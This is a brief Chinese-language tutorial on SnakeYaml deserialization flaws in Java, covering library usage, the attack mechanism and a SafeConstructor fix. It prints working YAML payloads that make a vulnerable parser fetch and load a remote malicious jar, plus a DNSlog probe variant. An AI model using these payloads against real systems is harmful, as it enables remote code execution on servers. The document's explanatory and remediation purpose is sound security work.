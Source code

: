 SnakeYaml是java解析yaml格式的组件库，SnakeYaml反序列化漏洞不存在版本限制，前提是能控制反序列化数据流。


SnakeYaml反序列化漏洞，不同的数据类型稍有不同：
当数据为键值对时，会调用构造方法和setter方法。
当数据是数组时候会调用构造方法，其中一条攻击链就是利用SPI机制来加载恶意类



## **SnakeYaml使用​**
导入依赖，如果是springboot项目，自带此依赖。
```
<dependency>​
  <groupId>org.yaml</groupId>​
  <artifactId>snakeyaml</artifactId>​
  <version>1.27</version>​
</dependency>
```
```
inputStream = new FileInputStream(filepath);​
yaml = new Yaml();​
// 使用文件输入流读取YAML文件​
yamlMap = yaml.load(inputStream);
```

## **反序列化漏洞**
当数据是数组时候会调用构造方法，其中一条攻击链就是利用SPI机制来加载恶意类：
使用 !!+全类名指定反序列化的类，反序列化过程中会实例化该类。snakeyaml 将全类名解析，并将类使用forname()进行加载，然后通过反射获取构造器，调用构造方法，控制适当的类的构造方法就能进行漏洞攻击。
如
```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:7788/exp.jar"]]]]
```
探测
```
public class Snakeyaml {
    public static void main(String[] args) {
        String context = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://fnsdae.dnslog.cn\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(context);
    }
}
```
网上工具
<https://www.cnblogs.com/nice0e3/p/14514882.html>
Nacos反序列化漏洞
<https://mp.weixin.qq.com/s/SfAFMiraMKafcISo5IDEAg>
^
## **修复**
其实该漏洞涉及到了全版本，只要反序列化内容可控,那么就可以去进行反序列化攻击​
修复方案：加入new SafeConstructor()类进行过滤
```
public class main {​
    public static void main(String[] args) {​
        String context = "!!javax.script.ScriptEngineManager [\n" +​
                "  !!java.net.URLClassLoader [[\n" +​
                "    !!java.net.URL [\"http://127.0.0.1:8888/yaml-payload-master.jar\"]\n" +​
                "  ]]\n" +​
                "]";​
        Yaml yaml = new Yaml(new SafeConstructor());​
        yaml.load(context);​
    }​
}
```
